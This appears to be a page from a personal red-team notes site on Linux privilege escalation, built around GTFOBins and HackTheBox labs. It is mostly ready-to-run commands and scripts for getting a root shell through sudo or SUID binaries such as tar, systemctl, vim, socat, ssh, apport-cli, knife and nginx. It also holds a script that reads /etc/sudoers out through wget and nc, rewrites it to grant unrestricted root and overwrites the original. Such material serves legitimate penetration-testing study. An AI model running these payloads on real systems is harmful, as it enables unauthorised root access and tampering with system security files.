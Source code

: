 # GTFOBins

<div class="row row-cols-lg-2"><div>

**[GTFOBins](https://gtfobins.github.io/)** (9.5k ⭐) a.k.a. "Get The Fuck Out" is a list of way to exploit binaries such as `sed`/`tar`/... to get root.

Common use cases are:

* [Binary was given SUID/GUID permissions](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#suidguid-bit)
* [Binary was given capabilities](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#capabilities)
* [User was granted sudo permission to binary](/cybersecurity/red-team/s4.privesc/linux/topics/sudo.md)
* ...

Note that not every exploit may pop a shell. Some only allow you to edit some files, which may help getting root.
</div><div>

**Example** 🔥

You can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a root shell.

```ps
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

➡️ You can use [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup) (0.2k ⭐) for offline browsing.

➡️ You may need/want to create a [root bash](/cybersecurity/red-team/s4.privesc/linux/utils/rootbash.md).
</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script makes it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```ps
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```ps
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>

<hr class="sep-both">

## ⚡ SUDO `wget` script

Description: this script automate privilege escalation using `wget`.

<div class="row row-cols-lg-2"><div class="align-self-center">

It's quite easy to do it manually, but you need two machines (ex: your VM and the target). This script is complex because everything is done locally, without interacting with your VM!

* Will use `wget` to fetch `/etc/sudoers` and `nc` to grab the result

* Then, it will replace the line giving access to `wget` and give you the permission to run every command as root

* Then, we will start a python web server, and use `wget` with `-o` to replace our new sudo file with the tampered one.

* Finally, the script run `sudo bash` and open your shell as root

⚠️ The script may mess with your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) file if something goes wrong. I destroyed my VM 7 times before managing to make the script work 🌳. If you understand the commands used in the script, use them one by one, and check the tampered sudoers file (output) BEFORE overriding the current one.
</div><div>

```bash!
file=/etc/sudoers
port=4444
# todo: use mktemp
output=stolenfile

# Working in /tmp
cd /tmp
# -d and -q 0 to quit when connection is closed
nc -dlnp $port -q 0 > $output &
# -q = quiet, and -T 1 = close after one second
sudo wget -q --post-file=$file localhost:$port -T 1
# remove the HTTP headers
sed -i '1,9d' $output
# replace the command with find
sed -i "s/\($(whoami).*\)/$(whoami)  ALL=(ALL) NOPASSWD:ALL/g" $output
# create a web server
python3 -m http.server $port &
pid=$(echo $!)
sleep 1 # let the webserver start
# get the file then kill the webserver
# replace /etc/sudoers
sudo wget -q localhost:$port/$output -O $file && kill $pid
# open the root shell
sudo bash
```
</div></div>

<hr class="sep-both">

## Random Payloads

<div class="row row-cols-lg-2"><div>

If we are allowed to run a command as sudo:

* Common commands

```ps
$ sudo vim -c ':!/bin/sh'
$ sudo socat stdin exec:/bin/bash
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

* [apport-cli](https://manpages.ubuntu.com/manpages/focal/en/man1/apport-cli.1.html) 2.26.0 and earlier has a vulnerability ([CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)) 

[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

```ps
$ sudo /usr/bin/apport-cli --file-bug
> 1
> 2
> F # any key
> V # view report (open less)
:!/bin/bash
```

* `/usr/bin/systemctl status xxx.service`

[![attacking_common_applications](../../../../_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

While it may be secure, if a reader is opened, such as `less`, it may be leveraged to run commands e.g. using `!/bin/bash` for `less`.
</div><div>

* `/usr/bin/knife`: [knife](http://manpages.ubuntu.com/manpages/bionic/man1/knife.1.html) can be exploited in many ways

[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)

```ps
$ sudo knife environment edit _default -e vim # -> sudo vim
$ sudo knife environment edit _default -e rootbash.sh
$ sudo knife exec --exec "exec '/bin/sh -i'"
$ echo -n 'exec "/bin/bash -i"' > config.rb
$ sudo knife user list -c config.rb
```

* `nginx` can be used to read files. It may also be used to write files using `dav_methods PUT;`. For instance, adding an entry in authorized keys or sudoers.

[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

```ps
$ cat $(pwd)/test.conf
user root;
# each URL is injected in LD PRELOAD
# leading to the execution of junk then our custom .so
# error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
       listen 80;
       root /;
       autoindex on;
       # dav_methods PUT;
    }
}
$ sudo /path/to/nginx -s stop
$ sudo /path/to/nginx -c $(pwd)/test.conf
```
</div></div>